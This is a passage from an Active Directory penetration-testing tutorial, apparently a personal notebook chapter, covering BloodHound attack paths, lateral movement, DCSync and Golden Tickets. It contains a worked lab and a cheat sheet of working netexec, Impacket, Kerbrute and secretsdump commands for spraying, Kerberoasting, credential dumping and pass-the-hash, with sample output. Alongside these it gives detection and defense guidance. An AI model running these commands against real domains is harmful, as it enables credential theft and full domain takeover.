
The BloodHound data model has three node types you care about most — **Users**, **Computers**, **Groups** — and a rich set of **edges** describing relationships. Some edges are benign membership; others are *abusable control*. The high-value abusable edges:

| Edge | Meaning | Why it's an attack |
|---|---|---|
| `MemberOf` | Principal belongs to a group | Inherits the group's rights (the basis of nesting) |
| `AdminTo` | Principal is local admin on a computer | Dump that box's secrets then new creds |
| `HasSession` | A user is logged on to a computer | If you own the computer, steal that user's creds |
| `GenericAll` / `GenericWrite` | Full/partial write control over an object | Reset password, add SPN, set delegation |
| `ForceChangePassword` | Can reset a target's password without knowing the old one | Take over that account outright |
| `AddMember` | Can add members to a group | Add yourself to Domain Admins |
| `Owns` / `WriteDACL` | Own an object or can rewrite its ACL | Grant yourself any right, then abuse it |
| `AllowedToDelegate` / `AllowedToAct` | Kerberos delegation rights | Impersonate other users to a service |
| `DCSync` (GetChanges/GetChangesAll) | Right to replicate directory secrets | Dump every hash in the domain, including `krbtgt` |

The workflow in the GUI:

1. **Mark your foothold.** Right-click your user (`j.smith`) then *Mark as Owned*.
2. **Mark the goal.** Find `Domain Admins` (or your objective object) then *Mark as High Value* (it already is).
3. **Ask for the path.** Use the built-in query *"Shortest Paths from Owned Principals"* or *"Shortest Path to Domain Admins"*. BloodHound draws every hop.
4. **Read each edge's help.** Right-click any edge then *Help* — BloodHound gives you the *exact* abuse commands (which tool, which flags) for that specific edge. This is a superpower: the tool tells you how to walk each step.



Read the plan straight off the graph: use `GenericWrite` on `svc_sql` to take it over (e.g. set an SPN and Kerberoast it, or set a fake password), use `svc_sql`'s WinRM access to get onto `APP01`, and steal `dadmin`'s cached credential from `APP01` because they have a session there. Six nodes, one path, Domain Admin. **This is the entire game in one picture** — and every subsequent chapter is a deep dive into how to walk one specific edge type.

**Beyond the pre-built queries: raw Cypher.** BloodHound stores its graph in Neo4j, so anything the canned queries don't cover you can ask directly in the Cypher query language. A few high-value one-liners every operator keeps handy:

```cypher
// Every user that is Kerberoastable (has an SPN) AND is a high-value target
MATCH (u:User {hasspn:true, highvalue:true}) RETURN u.name

// Shortest path from ANY owned principal to Domain Admins
MATCH p=shortestPath((o)-[*1..]->(g:Group))
WHERE o.owned=true AND g.name STARTS WITH "DOMAIN ADMINS@"
RETURN p

// Computers where a Domain Admin has a session (session-stealing targets)
MATCH (c:Computer)-[:HasSession]->(u:User)-[:MemberOf*1..]->(g:Group)
WHERE g.name STARTS WITH "DOMAIN ADMINS@" RETURN c.name, u.name
```

The third query is the practical heart of lateral movement: it tells you *exactly which machine to get local admin on* to steal a Domain Admin credential. Learning even five Cypher queries multiplies BloodHound's value because you stop being limited to the questions someone else pre-wrote. **Blue team relevance:** defenders run these same queries proactively — the "Domain Admin session on a workstation" result is a Tier-0 violation to remediate before an attacker finds it.

---

## Part 9: Privilege Escalation & Lateral Movement — The Categories

Between "foothold" and "Domain Admin" sit two intertwined activities. You do not need to master every technique now — later chapters do that — but you must understand the *categories* so you can slot new techniques into a mental framework.

**Credential access & privilege escalation categories:**

- **Roasting attacks** — request Kerberos tickets or AS-REP responses for accounts and crack them offline. *Kerberoasting* targets accounts with a Service Principal Name (SPN); *AS-REP roasting* targets accounts without pre-auth. Both need only a normal domain user and yield crackable hashes.
- **Credential dumping** — where you have local admin, extract secrets from memory (LSASS), the local account database (SAM), LSA secrets, cached domain logons, DPAPI blobs, and browser/credential stores.
- **ACL abuse** — exploit misconfigured permissions on AD objects: `ForceChangePassword`, `GenericAll`, `WriteDACL`, `AddMember`, `WriteOwner`. This is pure "features abused," no exploit.
- **Delegation abuse** — abuse Kerberos delegation (unconstrained, constrained, resource-based constrained) to impersonate privileged users to services.
- **Group Policy (GPO) abuse** — if you can edit a GPO linked to a target OU, you can push a scheduled task or script to every machine in that OU.
- **Certificate services (AD CS) abuse** — misconfigured certificate templates (the ESC1–ESC8 family) can mint authentication certificates for arbitrary users, a now-mainstream domain-takeover route.

**Lateral movement techniques** (how you actually *arrive* on the next box once you have a credential/authenticator for it):

| Technique | Auth material used | Tool example | Notes |
|---|---|---|---|
| Pass-the-Hash (PtH) | NT hash | `nxc smb -H`, `psexec.py -hashes` | No cracking; hash = password over NTLM |
| Pass-the-Ticket (PtT) | Kerberos ticket (TGT/TGS) | `getTGT.py`, Rubeus | Inject a stolen ticket, become that user |
| Overpass-the-Hash | NT hash then Kerberos TGT | Rubeus, `getTGT.py` | Turn a hash into a full Kerberos identity |
| PsExec-style | Password or hash | `psexec.py`, `nxc` | Creates a service then SYSTEM; noisy |
| WMI / WinRM | Password, hash, or ticket | `wmiexec.py`, `evil-winrm` | Quieter; WinRM (5985/5986) very common |
| RDP | Password or (Restricted Admin) hash | `xfreerdp` | Interactive; leaves the most forensic trace |



The loop closes: every lateral move drops you on a new box, and the *first* thing you do there is enumerate again (Part 6) — new sessions, new cached creds, new local admins. You spiral toward higher privilege one identity at a time. **Red team OPSEC note:** `psexec`-style movement is reliable but *loud* (it creates and starts a service, generating `7045` events); `wmiexec`/WinRM are generally quieter. Choosing the quietest technique that works is the essence of OPSEC-aware lateral movement, covered next.

---

## Part 10: Domain Dominance — The Endgame

Once you control a Domain Admin-equivalent identity, or the domain controller itself, you reach **domain dominance**: total, durable control. The signature techniques (each a future chapter):

- **DCSync** — abuse the directory-replication right (`GetChanges` + `GetChangesAll`) to *ask* the DC to hand you any account's password hash, including `krbtgt`. You never touch the DC's disk. `secretsdump.py -just-dc` performs it.
- **Golden Ticket** — with the `krbtgt` account's hash you can forge a Kerberos TGT for *any* user with *any* group membership, valid for years. This is the ultimate persistence: even resetting the compromised user doesn't help; only *twice*-rotating `krbtgt` does.
- **Silver Ticket** — forge a service ticket (TGS) for one specific service using that service account's hash — quieter and more targeted than a Golden Ticket because it never talks to the DC.
- **NTDS.dit extraction** — the DC's `NTDS.dit` file is the entire domain's password database. Any technique that reads it (Backup Operators, Volume Shadow Copy, DCSync) yields every hash at once.
- **AdminSDHolder / ACL persistence** — plant a stealthy ACL that re-grants you rights even after cleanup.



A DCSync with `secretsdump.py`, once you hold a Domain Admin-equivalent credential, looks like this — it *asks* the DC to replicate secrets and dumps every account's NT hash:

```bash
secretsdump.py -just-dc corp.local/dadmin:'W1nter2024!'@10.10.10.10
```

```text
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d7e2b0b3f5f0a9c1e6a7b8c9d0e1f2a3:::
dadmin:1104:aad3b435b51404eeaad3b435b51404ee:a1b2c3d4e5f60718293a4b5c6d7e8f90:::
svc_sql:1108:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:9f8e...c0d1
```

That `krbtgt` line is the crown jewel — its hash forges Golden Tickets. With this dump in hand, the domain is fully and durably compromised. **Why the client cares:** demonstrating DCSync and a Golden Ticket in a report is the unambiguous proof of "total compromise" — it shows the organisation that recovery requires the painful, rarely-practised `krbtgt` double-reset, which is exactly the resilience gap most orgs have. **Blue team relevance:** DCSync from a non-DC principal is detectable as replication requests (`4662` with the replication GUIDs) originating from something that isn't a domain controller — one of the highest-fidelity AD alerts that exists.

**CTF & bug-bounty relevance.** This chapter's methodology *is* the solution template for essentially every "Windows/AD" machine on HackTheBox and TryHackMe: enumerate with netexec, roast a service account, map with BloodHound, walk one edge, DCSync. There is no honest *external* bug-bounty program for internal AD methodology itself — but the individual primitives recur constantly in bounty scope where a corporate SSO, ADFS, or Entra-connected app exposes AD identities, and internal red-team/assumed-breach retainers are where this skill set is paid for directly. If a topic has no bounty angle, this notebook says so rather than padding — here the value is overwhelmingly CTF, OSCP-style exams, and professional internal engagements.

---

## Part 11: Fully Worked Lab — One Credential to a Mapped Path

This lab walks the first two-and-a-half phases of the lifecycle end to end against a lab domain `corp.local` (DC at `10.10.10.10`), from a single provided low-priv credential to a BloodHound-mapped path to Domain Admin and a stolen second identity. **Run this only against your own lab** (build instructions in Part 17 resources). Every command and its realistic output is shown.

**Given:** `corp.local\j.smith : Autumn2024!`, and network access to `10.10.10.0/24`.

The lab topology — three hosts and the identity relationships we will discover as we go:



Nothing in that diagram is known at the start except the three IPs and `j.smith`'s credential — every other edge is something the enumeration steps below *reveal*. That is the whole point: you begin with almost nothing and let disciplined enumeration draw the rest of the map.

### Step 1 — Read the password policy BEFORE anything noisy

```bash
nxc smb 10.10.10.10 -u j.smith -p 'Autumn2024!' --pass-pol
```

```text
SMB  10.10.10.10  445  DC01  [*] Windows Server 2019 Build 17763 (name:DC01) (domain:corp.local) (signing:True)
SMB  10.10.10.10  445  DC01  [+] corp.local\j.smith:Autumn2024!
SMB  10.10.10.10  445  DC01  [+] Dumping password info for domain: CORP
SMB  10.10.10.10  445  DC01  Minimum password length: 7
SMB  10.10.10.10  445  DC01  Account Lockout Threshold: 5
SMB  10.10.10.10  445  DC01  Reset Account Lockout Counter: 30 minutes
SMB  10.10.10.10  445  DC01  Locked Account Duration: 30 minutes
```

Lockout is 5 tries per 30 minutes — noted. Any future spray must stay at ≤4 attempts per account per 30-minute window.

### Step 2 — Find where this credential is valid and where it grants admin

```bash
nxc smb 10.10.10.0/24 -u j.smith -p 'Autumn2024!'
```

```text
SMB  10.10.10.10  445  DC01  [+] corp.local\j.smith:Autumn2024!
SMB  10.10.10.25  445  FS01  [+] corp.local\j.smith:Autumn2024!
SMB  10.10.10.42  445  WS01  [+] corp.local\j.smith:Autumn2024! (Pwn3d!)
```

`j.smith` is local admin on `WS01` — a foothold with real power. Record it.

### Step 3 — Enumerate users and groups over the domain

```bash
nxc smb 10.10.10.10 -u j.smith -p 'Autumn2024!' --users
```

```text
SMB  10.10.10.10  445  DC01  -Username-        -Last PW Set-       -BadPW-  -Description-
SMB  10.10.10.10  445  DC01  Administrator     2023-01-15 09:12    0
SMB  10.10.10.10  445  DC01  j.smith           2023-06-01 14:03    0
SMB  10.10.10.10  445  DC01  a.admin           2023-05-20 08:41    0
SMB  10.10.10.10  445  DC01  svc_sql           2022-11-02 10:00    0        SQL service account
SMB  10.10.10.10  445  DC01  svc_backup        2022-11-02 10:01    0        Backup service account
SMB  10.10.10.10  445  DC01  dadmin            2023-04-10 07:22    0        Domain admin - do not disable
```

That `dadmin` description is a gift — a labelled Domain Admin to hunt for.

### Step 4 — Grab low-hanging Kerberos loot: AS-REP and Kerberoast

```bash
# AS-REP roastable accounts (no pre-auth): no special privilege needed
nxc ldap 10.10.10.10 -u j.smith -p 'Autumn2024!' --asreproast asrep.txt
# Kerberoastable accounts (have an SPN):
nxc ldap 10.10.10.10 -u j.smith -p 'Autumn2024!' --kerberoasting kerb.txt
```

```text
LDAP 10.10.10.10 389 DC01 [+] corp.local\j.smith:Autumn2024!
LDAP 10.10.10.10 389 DC01 [*] Total of records returned 1
LDAP 10.10.10.10 389 DC01 $krb5tgs$23$*svc_sql$CORP.LOCAL$corp.local/svc_sql*$a1b2...c9d0
```

`svc_sql` is Kerberoastable — its service ticket is now in `kerb.txt`, crackable offline with Hashcat mode 13100 (a later chapter). Note we captured it *without* attacking the account directly, using only `j.smith`.

### Step 5 — Collect the graph with BloodHound

```bash
bloodhound-python -u j.smith -p 'Autumn2024!' -d corp.local \
  -dc DC01.corp.local -ns 10.10.10.10 -c All --zip
```

```text
INFO: Found AD domain: corp.local
INFO: Connecting to LDAP server: DC01.corp.local
INFO: Found 1 domains, 1 domain in the forest
INFO: Found 24 users, 51 groups, 3 computers
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WS01.corp.local
INFO: Querying computer: FS01.corp.local
INFO: Querying computer: DC01.corp.local
INFO: Compressing output into 20240101120000_bloodhound.zip
```

Drag the `.zip` into the BloodHound GUI, mark `j.smith` as *Owned*, and run *Shortest Paths from Owned Principals*.

### Step 6 — Harvest cached credentials from the box we own

Because `j.smith` is local admin on `WS01`, dump its secrets — this often yields *another user's* cached credential, our lateral-movement fuel:

```bash
secretsdump.py corp.local/j.smith:'Autumn2024!'@10.10.10.42
```

```text
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b...:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/user:hash)
CORP.LOCAL/svc_backup:$DCC2$10240#svc_backup#a1b2c3d4e5f6...
[*] Dumping LSA Secrets
CORP.LOCAL\svc_backup:Backup#Pass2022!
[*] Cleaning up...
```

The LSA secrets revealed a *cleartext* service-account password: `svc_backup : Backup#Pass2022!`. In BloodHound, `svc_backup` is a **Backup Operator** — a group that can read files on the DC, including `NTDS.dit`. The path is now concrete.

### Step 7 — Validate the new identity and confirm the path

```bash
nxc smb 10.10.10.10 -u svc_backup -p 'Backup#Pass2022!'
```

```text
SMB 10.10.10.10 445 DC01 [+] corp.local\svc_backup:Backup#Pass2022! (Pwn3d!)
```

`(Pwn3d!)` on the **domain controller**. Via the Backup Operators right, `svc_backup` can extract `NTDS.dit` — every hash in the domain, including `krbtgt`. From here, DCSync / Golden Ticket (Part 10, and a later chapter) is a formality.

**What just happened, in lifecycle terms:** Initial Access (given) then Situational Awareness (Steps 1–5) then Credential Access (Steps 4, 6) then Privilege Escalation/Lateral Movement (Step 6 to 7). One provided low-priv credential became effective control of the domain in seven deliberate, enumeration-first steps — no memory-corruption exploit anywhere. **That is the assumed-breach thesis proven in a single lab.**

---

## Part 12: OPSEC, Logging & Note-Taking Discipline

The techniques are only half of professional AD work. The other half is *discipline*: staying quiet enough to be realistic, keeping evidence clean enough to write a report, and not leaving the client's domain in a worse state than you found it. Beginners skip this and it shows in their reports.

**OPSEC — the quiet-versus-loud spectrum.** Every action you take generates telemetry (the exact events are catalogued in Part 13). Operating with OPSEC awareness means *choosing the quietest technique that accomplishes the goal* and pacing yourself. A rough loud-to-quiet ranking of the actions in this chapter:

| Action | Noise level | Why | Quieter alternative |
|---|---|---|---|
| `psexec.py` | Loud | Installs+starts a service (`7045`, `4697`) | `wmiexec.py` / WinRM |
| netexec `/24` sweep | Loud | Auth to every host in seconds | Target only the hosts you need |
| RDP interactive | Loud | Full interactive logon, profile load, artifacts | WinRM shell |
| BloodHound `-c All` | Medium | Bulk LDAP + session enumeration | Collect in stages (`-c DCOnly` first) |
| Kerberoast / AS-REP roast | Medium | `4769`/`4768` RC4 tickets requested | Request one SPN at a time, use AES where possible |
| `wmiexec` / evil-winrm | Quieter | Network logon, no service install | — |
| Kerbrute `userenum` | Quiet-ish | No password tried, no lockout | Slow the rate |

The point is not to be invisible — in an assumed-breach *purple* team you often *want* to be seen so the blue team can practise detecting you. The point is to make noise **deliberately**, knowing what each action costs, rather than blindly.

**Logging your own activity.** Keep a timestamped command log for the entire engagement. On Linux, `script` captures a full terminal session to a file:

```bash
# Records everything you type and see into engagement.log with timestamps
script -a -f ~/engagement/$(date +%F)_session.log
```

This log is not optional bureaucracy — it is what lets you (a) reconstruct exactly what you did if the client asks "did you cause this outage?", (b) prove scope adherence, and (c) write an accurate methodology section. A finding you can't reproduce from your notes is a finding you can't defend.

**Note-taking structure.** Maintain, at minimum: a *credentials* table (every user/hash/ticket obtained, where from, and what access it grants), a *hosts* table (IP, name, role, your access level, `signing` status), and a *paths* log (each BloodHound path you found and whether you walked it). Tools like CherryTree, Obsidian, Notion, or a simple Markdown file work — the tool matters far less than the discipline of writing down *every* credential the instant you get it. In a fast-moving domain compromise you will forget which hash unlocked which box within an hour if you don't record it.

**Cleanup.** Anything you created — a dropped binary, an added SPN, a reset password, a created service, a forged ticket — is your responsibility to note and, where safe, revert. Resetting a service account's password to Kerberoast it can break the real service; always record the original state and coordinate restoration with the client. Leaving a Golden Ticket-capable `krbtgt` compromise undocumented is both unprofessional and dangerous.

**Red team vs pentest OPSEC.** A standard internal pentest is usually *not* an evasion exercise — the client knows you're testing and speed/coverage matter more than stealth. A red team engagement explicitly tests detection and response, so evasion, pacing, and avoiding EDR become central. Know which kind of engagement you are on before you decide how quiet to be; using full red-team stealth on a time-boxed pentest wastes the client's money, and using pentest-speed noise on a red team blows the exercise on day one.

---

## Part 13: Detection & Defense Angle (Consolidated)

Every offensive step above leaves telemetry. A defender who knows the attack methodology can instrument for it. This section consolidates the detection/defense view of everything covered — the mirror image of the attack lifecycle.

**Signatures by phase:**

| Attack step | Windows event / signal | Defensive control |
|---|---|---|
| Password spray | Many `4625` (failed logon) across accounts from one source | Lockout policy, spray-detection analytics, smart lockout, MFA |
| Kerbrute userenum | Burst of `4768` AS-REQ for many (often invalid) users | Alert on high-volume/failed `4768` from one host |
| AS-REP roasting | `4768` with pre-auth not required, RC4 (`0x17`) enctype | Require pre-auth on all accounts; alert on the enctype |
| Kerberoasting | `4769` (service-ticket request) with RC4 enctype in bulk | Long, random service passwords; gMSA; alert on RC4 `4769` bursts |
| netexec sweep | Bursts of `4624`/`4625` across many hosts from one IP | Network segmentation; correlate cross-host logon fan-out |
| BloodHound collection | Bulk LDAP queries; abnormal session/ACL enumeration | LDAP query monitoring; honey objects; ADCS/AD tiering |
| secretsdump / LSASS | `4688`/Sysmon `10` (LSASS access), service creation `7045` | Credential Guard, LSASS PPL, EDR, restrict local admin |
| PsExec lateral move | `7045` service install, `4624` type 3, named-pipe activity | Restrict admin logon, LAPS, tiered admin, EDR |
| DCSync | `4662` replication access from a non-DC principal | Alert on replication rights used by non-DCs (very high fidelity) |
| Golden Ticket | TGT with anomalous lifetime / mismatched RC4; `4769` oddities | Rotate `krbtgt` twice on compromise; enforce AES; ticket-lifetime policy |

**The five structural defenses that break most paths at once:**

1. **Tiered administration** — never let Tier-0 (DC/DA) credentials log on to Tier-1/2 (servers/workstations). This single control kills the "steal a DA session from a workstation" move that ends most labs and real intrusions.
2. **LAPS** — unique, rotating local-admin passwords per machine. Destroys the "one local-admin password across 4,000 boxes then Pass-the-Hash everywhere" pattern.
3. **Credential Guard + LSASS protection** — stops or badly hampers memory credential theft, the engine of lateral movement.
4. **Least privilege on ACLs and groups** — most BloodHound paths are single misconfigured ACL edges; auditing and pruning them removes edges from the attacker's graph. Run BloodHound *defensively*.
5. **Kerberos hygiene** — long/random service-account passwords or gMSAs (kill Kerberoasting), require pre-auth (kill AS-REP roasting), enforce AES over RC4, and rotate `krbtgt` regularly.

**IR use case:** during an active-incident triage, this table is a hunting checklist — pull `4662` for non-DC replication, `4769` RC4 bursts, and `7045` service installs first, because those three cover DCSync, Kerberoasting, and PsExec-style movement, which together account for a large share of real AD intrusions. **The purple-team payoff:** run the Part 11 lab against an instrumented range and confirm each step lights up the corresponding row — any row that stays dark is a detection gap to fix.

---

## Part 14: Final Revision / Summary

- **The mindset is the method.** *Assume the breach.* AD engagements start from a foothold and measure blast radius, because phishing eventually succeeds and the interesting question is what happens next.
- **Identity is the terrain.** Think in users, computers, groups, and the *edges* (permissions, sessions, delegation, trust) between them — not IPs. The shortest path to Domain Admin is a chain of legitimate permissions, not an exploit.
- **Most AD compromise is feature abuse, not vulnerability exploitation.** Kerberos design, ACLs, delegation, credential caching, and password reuse are the raw material.
- **The lifecycle is a loop:** Initial Access then Situational Awareness then Credential Access then Privilege Escalation then Lateral Movement then (loop) then Domain Dominance. Lateral movement feeds back into fresh enumeration.
- **Enumerate before you attack.** Read the lockout policy first; never spray blind. The first three facts on any foothold: who am I, what's the domain, what's the lockout threshold.
- **Four core tools:** `netexec` (broad sweeper — validity, admin, dumps, spraying), `Impacket` (precise protocol scalpels — `secretsdump`, `psexec`, `GetUserSPNs`), `BloodHound` + `bloodhound-python` (the attack-path graph engine), `Kerbrute` (fast username enum and Kerberos spray).
- **`(Pwn3d!)` = local admin** on that host = you can dump its cached secrets = probable next identity.
- **Domain dominance** means `krbtgt`/DCSync/Golden Ticket — total, durable control; recovery requires the rarely-practised double `krbtgt` reset.
- **Every offensive step has a defensive mirror.** Tiering, LAPS, Credential Guard, ACL least-privilege, and Kerberos hygiene collapse most attack graphs — and DCSync-from-non-DC and RC4 `4769`/`4768` bursts are among the highest-fidelity alerts in existence.

---

## Part 15: Cheat Sheet / Quick Reference

**Situational awareness (first hour):**

```bash
# Password policy FIRST — know the lockout threshold
nxc smb 10.10.10.10 -u USER -p PASS --pass-pol

# Where is the cred valid / where am I local admin?
nxc smb 10.10.10.0/24 -u USER -p PASS

# Users, groups, shares, sessions
nxc smb DC -u USER -p PASS --users
nxc smb DC -u USER -p PASS --groups
nxc smb 10.10.10.0/24 -u USER -p PASS --shares
nxc smb 10.10.10.0/24 -u USER -p PASS --loggedon-users
```

**Free Kerberos loot (only a normal user needed):**

```bash
nxc ldap DC -u USER -p PASS --asreproast asrep.txt     # crack: hashcat -m 18200
nxc ldap DC -u USER -p PASS --kerberoasting kerb.txt   # crack: hashcat -m 13100
# Impacket equivalents:
GetNPUsers.py corp.local/ -usersfile users.txt -no-pass   # AS-REP roast
GetUserSPNs.py corp.local/USER:PASS -request              # Kerberoast
```

**Credential access (needs local admin on target):**

```bash
secretsdump.py corp.local/USER:PASS@TARGET          # SAM + LSA + cached
nxc smb TARGET -u USER -p PASS --sam --lsa
```

**Lateral movement:**

```bash
psexec.py corp.local/USER:PASS@TARGET               # then SYSTEM (loud)
wmiexec.py corp.local/USER:PASS@TARGET              # quieter
evil-winrm -i TARGET -u USER -p PASS                # WinRM 5985
# Pass-the-Hash (no password):
nxc smb TARGET -u USER -H <NThash>
psexec.py -hashes :<NThash> corp.local/USER@TARGET
```

**Attack-path mapping:**

```bash
bloodhound-python -u USER -p PASS -d corp.local -dc DC01.corp.local -ns 10.10.10.10 -c All --zip
# In GUI: Mark Owned then "Shortest Paths from Owned Principals" then right-click edge then Help
```

**Username enumeration & spray (Kerberos, no lockout on userenum):**

```bash
./kerbrute userenum -d corp.local --dc 10.10.10.10 users.txt
./kerbrute passwordspray -d corp.local --dc 10.10.10.10 users.txt 'Season2024!'
```

**Domain dominance (once DA-equivalent):**

```bash
secretsdump.py -just-dc corp.local/dadmin:PASS@DC01     # DCSync all hashes
secretsdump.py -just-dc-user krbtgt corp.local/dadmin:PASS@DC01   # just krbtgt
```

**High-value groups to always check membership of:** Domain Admins, Enterprise Admins, Administrators, Backup Operators, Server Operators, Account Operators, DnsAdmins, Group Policy Creator Owners, Cert Publishers, Remote Management Users.

**Reading nxc output:** `[+]` = valid cred · `(Pwn3d!)` = local admin here · `signing:False` = relay candidate.

---

## Part 16: Common Pitfalls

- **Spraying before reading the lockout policy.** The #1 way to lock out real users and end an engagement. Always `--pass-pol` first, then stay under the threshold with a margin.
- **Attacking before enumerating.** Blind attacks are loud and miss the easy path. The graph almost always contains a shorter route than the obvious one.
- **Forgetting DNS.** AD is glued together by DNS; if `bloodhound-python`, Kerberos, or name resolution "randomly" fails, you almost certainly need `-ns <DC-IP>` / to point your resolver at the DC. Kerberos also needs correct time (clock skew > 5 min breaks it) — sync to the DC (`ntpdate`/`rdate`) if tickets fail.
- **Chasing Domain Admin when the objective is elsewhere.** Sometimes the crown jewels (a specific file share, source repo, PII database) are reachable without full DA. Map to the *objective*, not reflexively to Domain Admins.
- **Ignoring `signing:False`.** It marks relay-able hosts; skipping over it means missing an entire attack class (SMB relay).
- **Using RC4/loud tools when quiet ones exist.** `wmiexec`/WinRM over `psexec`; AES over RC4; know which choices generate `7045`/RC4 events and choose deliberately on OPSEC-sensitive engagements.
- **Cracking when you don't need to.** Pass-the-Hash and Pass-the-Ticket mean the *authenticator* is often enough — don't waste hours cracking a hash you can just replay.

---

## Part 17: Practice Labs & Resources

Train each skill in this chapter on hands-on, legal ranges:

- **TryHackMe — "Attacktive Directory"** — a near-perfect companion to this chapter: AS-REP roasting with Kerbrute/GetNPUsers, Impacket, and a walk to the DC. Start here.
- **TryHackMe — "Post-Exploitation Basics" / "Holo" / the "Throwback" network** — end-to-end AD compromise practising the full lifecycle, including BloodHound and lateral movement.
- **HackTheBox — "Forest," "Active," "Sauna," "Blackfield"** — classic AD boxes drilling AS-REP roasting, Kerberoasting, DCSync, and Backup Operators-style paths exactly like the lab above.
- **HackTheBox Pro Labs — "Dante"/"Zephyr"/"RastaLabs"** — multi-host AD environments built for practising the assumed-breach spiral (enumerate then escalate then move then repeat).
- **GOAD (Game of Active Directory)** — a free, self-hostable vulnerable multi-domain AD lab (by Orange Cyberdefense) purpose-built for practising every technique in this notebook safely on your own hardware. Build this as your permanent home lab.
- **Ludus / DetectionLab** — automated ranges that stand up an instrumented AD domain so you can run the Part 11 lab *and* watch the Part 13 detections fire — ideal for purple-team practice.
- **BloodHound documentation + the "SpecterOps" blog** — the authoritative reference for every edge type and its abuse; read the edge *Help* text in the GUI as you go.
- **HackTheBox Academy / TCM "Practical Ethical Hacking" AD modules** — structured, guided walkthroughs of this exact methodology if you prefer a course format.

Build GOAD, get one low-priv credential, and run the Part 11 lab yourself end to end. The moment you turn one account into a mapped path to Domain Admin with your own hands, the assumed-breach mindset stops being theory. The next chapter builds directly on this foundation, moving from methodology into the first deep technical area of the notebook.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/01-ad-attack-methodology-and-the-assumed-breach-mindset), with comments and the latest edits.*
